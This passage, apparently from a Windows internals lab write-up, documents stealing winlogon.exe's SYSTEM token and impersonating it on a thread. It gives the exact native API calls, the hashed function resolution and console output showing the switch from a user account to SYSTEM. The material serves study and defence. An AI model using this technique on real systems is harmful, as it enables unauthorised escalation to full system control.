   - `NtAdjustPrivilegesToken` (`0x6921F9CD`, ordinal `210`)
   - `NtDuplicateToken` (`0x3000ECC3`, ordinal `350`)
   - `NtSetInformationThread` (`0x54212E31`, ordinal `610`)
2. **Enabling `SeDebugPrivilege` (`LUID = 20`) Directly via `NtAdjustPrivilegesToken`:**
   - Opened `main.exe`'s own Primary Token (`(HANDLE)-1`) with `TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY`.
   - Set `tp.Privileges[0].Luid.LowPart = 20` (`SeDebugPrivilege`) and `Attributes = SE_PRIVILEGE_ENABLED`.
   - When run in a standard (non-elevated `Medium` integrity) prompt, UAC's filtered token strips `SeDebugPrivilege` from the `Present` bitmask (`Present = 0`), causing the Kernel to return `0x00000106` (`STATUS_NOT_ALL_ASSIGNED`). When run in an elevated (`High` integrity) prompt, `SeDebugPrivilege` is `Present = 1` (`Disabled` by default), and `NtAdjustPrivilegesToken` flips its `Enabled` bit to `1` (`0x00000000` `STATUS_SUCCESS`).
3. **Stealing & Impersonating `winlogon.exe`'s `NT AUTHORITY\SYSTEM` Token:**
   - Located `winlogon.exe` at `PID 804` via `NtQuerySystemInformation(SystemProcessInformation)` and opened a process handle (`0xD0`) with `PROCESS_QUERY_LIMITED_INFORMATION`.
   - Opened `winlogon.exe`'s Primary Token (`0xD4`) via `NtOpenProcessToken` (`TOKEN_DUPLICATE | TOKEN_QUERY`).
   - Initialized `SECURITY_QUALITY_OF_SERVICE` (`ImpersonationLevel = SecurityImpersonation`) inside `OBJECT_ATTRIBUTES` and duplicated `winlogon.exe`'s Primary Token into a new Impersonation Token (`hDupToken = 0xD8`) via `NtDuplicateToken(..., TokenImpersonation, &hDupToken)`.
   - Attached `hDupToken` to our running thread (`(HANDLE)-2`, `NtCurrentThread()`) via `NtSetInformationThread((HANDLE)-2, ThreadImpersonationToken /* 5 */, &hDupToken, sizeof(HANDLE))`.
   - Because the Kernel's Security Reference Monitor (`SeAccessCheck`) always checks a thread's **Impersonation Token** (`ETHREAD.ClientSecurity`) before falling back to the process's **Primary Token** (`EPROCESS.Token`), our thread's effective identity immediately switched from `cyber` to **`SYSTEM`**!

### Console Output
```text
c:\Users\cyber\OneDrive\Desktop\labs\lab-3.3>main.exe
[!] Resolving NT functions...
[+] 0xEE4F73A8 found in loop index(i): 522, func index(ordinals[i]): 523
[+] 0x5003C058 found in loop index(i): 443, func index(ordinals[i]): 444
[+] 0x8B8E133D found in loop index(i): 261, func index(ordinals[i]): 262
[+] 0x6793C34C found in loop index(i): 221, func index(ordinals[i]): 222
[+] 0x7BD07459 found in loop index(i): 444, func index(ordinals[i]): 445
[+] 0x6921F9CD found in loop index(i): 209, func index(ordinals[i]): 210
[+] 0x3000ECC3 found in loop index(i): 349, func index(ordinals[i]): 350
[+] 0x54212E31 found in loop index(i): 609, func index(ordinals[i]): 610
[!] NT functions resolved, making call #1 to get returnLength...
[+] Call #1 returned: 0xC0000004, returnLength: 0x000317C8
[!] Making call #2...
[+] Allocated virtual memory for system information buffer. NtAllocateVirtualMemory returned: 0x00000000
[+] Call #2 returned: 0x00000000, returnLength: 0x000317C8
[!] Walking system process information buffer...
...
--------------------
PID: 804
PPID: 704
Threads: 5
Handles: 281
ImageName: winlogon.exe
[!] winlogon.exe PID found: 804
--------------------
...
--------------------
PID: 1664
PPID: 8164
Threads: 2
Handles: 52
ImageName: main.exe
--------------------
[!] Enabling SeDebugPrivilege on our own process...
[+] SeDebugPrivilege enabled on our own process, LUID: 20
[!] Opening a handle to winlogon.exe...
[+] NtOpenProcess returned: 0x00000000, obtained handle value: 0x00000000000000D0
[!] Duplicating winlogon.exe's SYSTEM token...
[+] Duplicated winlogon.exe's SYSTEM token. Obtained handle value: 0x00000000000000D8
[+] Username before impersonation: cyber
[!] Impersonating SYSTEM on our current thread...
[+] Impersonation successful.
[+] Username after impersonation: SYSTEM
```

### System Informer Verification (`Token` & `Handles` Tabs)




1. **Inside `main.exe (1664) -> Token`:**
   - **User:** `VIRT-WINDOWS\cyber` (`S-1-5-21-3044992084-3382551954-3297599983-1001`), `Elevated: Yes (Full)`.
   - **`SeDebugPrivilege` (`SID/LUID: 20`):** Highlighted in green with Status **`Enabled (modified)`**—proving that `SeDebugPrivilege` was originally `Disabled` even in our elevated Administrator process until `NtAdjustPrivilegesToken` modified its state!
2. **Inside `main.exe (1664) -> Handles`:**
   - **`Process` (`0xD0`):** `winlogon.exe (804)` with Granted Access `Query limited information`.
   - **`Token` (`0xCC`):** `VIRT-WINDOWS\cyber: 0xd33c6 (Primary)` with Granted Access `Adjust privileges, Query`.
   - **`Token` (`0xD4`):** `NT AUTHORITY\SYSTEM: 0x3e7 (Primary)` with Granted Access `Duplicate, Query` (where `0x3e7` = `999` is the constant `SYSTEM_LUID` logon session!).
   - **`Token` (`0xD8`):** `NT AUTHORITY\SYSTEM: 0x3e7 (Impersonation)` with Granted Access `Full control`.

